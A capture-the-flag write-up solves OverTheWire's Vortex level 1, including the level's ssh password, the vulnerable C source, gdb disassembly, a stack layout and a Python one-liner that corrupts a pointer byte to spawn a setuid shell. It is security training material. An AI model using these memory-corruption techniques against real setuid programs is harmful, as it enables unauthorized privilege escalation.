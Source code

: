 ## VORTEX1

Login to the vortex1 challenge via ssh :

```
critical@d3ad:~$ ssh vortex1@vortex.labs.overthewire.org -p 2228

                 _            
__   _____  _ __| |_ _____  __
\ \ / / _ \| '__| __/ _ \ \/ /
 \ V / (_) | |  | ||  __/>  < 
  \_/ \___/|_|   \__\___/_/\_\
                              
a http://www.overthewire.org wargame.

vortex1@vortex.labs.overthewire.org's password: Gq#qu3bF3
```

The first step was finding the `vortex1` binary and identifying its filetype.

```
vortex1@vortex:~$ find / -type f -name vortex1* 2> /dev/null
/etc/vortex_pass/vortex16
/etc/vortex_pass/vortex19
/etc/vortex_pass/vortex11
/etc/vortex_pass/vortex13
/etc/vortex_pass/vortex18
/etc/vortex_pass/vortex14
/etc/vortex_pass/vortex15
/etc/vortex_pass/vortex1
/etc/vortex_pass/vortex10
/etc/vortex_pass/vortex12
/etc/vortex_pass/vortex17
/vortex/vortex16
/vortex/vortex19
/vortex/vortex11
/vortex/vortex13
/vortex/vortex18
/vortex/vortex15
/vortex/vortex14.txt
/vortex/vortex1
/vortex/vortex10
/vortex/vortex15.tar.Z.enc
/vortex/vortex12
/vortex/vortex17

vortex1@vortex:~$ file /vortex/vortex1
/vortex/vortex1: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=09bc7b2fb83746b16c27d56e7fc2da484d15601e, not stripped

```

So, the binary is located at `/vortex/` directory.

Let's have a look at the source code and find the vulnerability -

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>


#define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }

void print(unsigned char *buf, int len)
{
        int i;

        printf("[ ");
        for(i=0; i < len; i++) printf("%x ", buf[i]); 
        printf(" ]\n");
}

int main()
{
        unsigned char buf[512];
        unsigned char *ptr = buf + (sizeof(buf)/2);
        unsigned int x;

        while((x = getchar()) != EOF) {
                switch(x) {
                        case '\n': print(buf, sizeof(buf)); continue; break;
                        case '\\': ptr--; break; 
                        default: e(); if(ptr > buf + sizeof(buf)) continue; ptr++[0] = x; break;
                }
        }
        printf("All done\n");
}

```
According to the Source code -

* ptr is initialized to point to the middle of a 512 bytes buffer, i.e. at (buf + 256).
* We can give three types of input 
1. A **'\n'** character which when provided at the end of our input will print out the whole buffer for us.
2. A **'\\** character which will decrement the pointer 'ptr'.
3. Any other character which checks if value of **ptr** after bitwise-AND'ing it with 0xff000000 is equal to 0xca000000 or not. If it is equal, `/bin/sh` program is spawned. 

So, our goal here is to somehow write the most-significant byte of `ptr` with `"\xca"` such that when ptr (0xcaxxxxxx) is masked with 0xff000000, it gives the output `0xca000000` and shell is spawned.

Let's have a look at the disassembly of the binary.
```
vortex1@vortex:~$ gdb -q /vortex/vortex1
Reading symbols from /vortex/vortex1...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x080485c0 <+0>:	push   ebp
  ...
   0x080485c8 <+8>:	sub    esp,0x220
```
 0x080485c8 <+8> : Reserves space for main()'s stack frame which is 0x220 (544) bytes in size.


```
   0x080485ce <+14>:	mov    eax,gs:0x14
   0x080485d4 <+20>:	mov    DWORD PTR [esp+0x21c],eax
```
Here, a /GS stack cookie (placing stack cannary, which is a mitigation technique) is placed after the buffer so that when the memory corruption occurs and attempts to overwrite the return pointer, it first corrupts the stack cannary and stack smashing is detected.

So, I was quite sure of not overflowing the buffer to higher addresses, but how could I then be able to change the value stored in `ptr`. I had a possibility in mind that giving huge amount of "\\" as input which decrements the ptr upto 0xcaxxxxxx but that probably won't work out. 


```
   0x080485db <+27>:	xor    eax,eax
   0x080485dd <+29>:	lea    eax,[esp+0x1c]
   0x080485e1 <+33>:	add    eax,0x100

   0x080485e6 <+38>:	mov    DWORD PTR [esp+0x14],eax
   ...
```
Here, `[esp+0x14]` is `ptr` (wich on <+33> gets incremented by 0x100 or 256 bytes) and `[esp+0x1c]` is `buf`.
```  
   0x0804868e <+206>:	call   0x8048400 <getchar@plt>
   0x08048693 <+211>:	mov    DWORD PTR [esp+0x18],eax
```
Here, `[esp+0x18]` is `variable x`.

To find the vulnerability, we would have to analyse how main()'s 
stack frame is organised.

```
                 0x00000000
                    .
                    .
            |----------------|
            |       ptr      | <- [esp + 0x14]
            |----------------|
            |   variable x   | <- [esp + 0x18]
            |----------------|
            |                |
            |                | 
            |    buf[512]    | <-- ptr (where pointer to : buf + 256)
            |                |
            |                |
            |----------------|            
            | Stack Cannary  |
            |----------------|
            | Saved EBP      |
            |----------------|
            | Return Pointer |
             ^^^^^^^^^^^^^^^^
                    .
                    .
                0xffffffff

```
We cannot move `ptr` down (out of bounds of buf), but we surely can move the `ptr` up and reach out location of `ptr` variable. If we overwrite the most significant byte of ptr to `0xca` and call e(), it would spawn a shell

For this, I used python to craft an input. First we decrement `ptr` to 261 characters (i.e. 256 characters to reach the start of `buf` and then decrementing by 4 to reach the `variable x`, then decrementing by 1 to reach the most significant byte of `ptr`(read about [endianess])). 

```
vortex1@vortex:~$ python -c 'import sys; print "\\"*256 + "\\"*5 + "\xca" + "A"*256; sys.stdout.flush() '| /vortex/vortex1
vortex1@vortex:~$
```
But it seems that nothing happens. But why ?

What's happening is, STDIN stream still contains the `EOF` character since it is not cleaned up by the the kernel. So, the "/bin/sh" executes but immediately exits. To overcome this situation, what we can do is flush the STDIN buffer maintained by the kernel. This can be done via `flush()` on `stdout stream` (which is provided by the `sys` module in python).

**NOTE**: As described in detail in [this] article : *"The kernel buffer, created by the pipe system call from the shell, is sized based on the page size for the system"*, also *"The linux pipe buffers have changed to circular buffers (16 x 4KiB)"*. So, another way is to provide an input of size greater than a page size so that our input characters overwrite the EOF character after 4096 bytes (a page size). 


![vortex1 solution](./screenshots/vortex01_ss.png)






NAME  : **ABHINAV THAKUR** <br>
EMAIL : **compilepeace@gmail.com**

[endianess]: https://en.wikipedia.org/wiki/Endianness
[this]: http://www.pixelbeat.org/programming/stdio_buffering/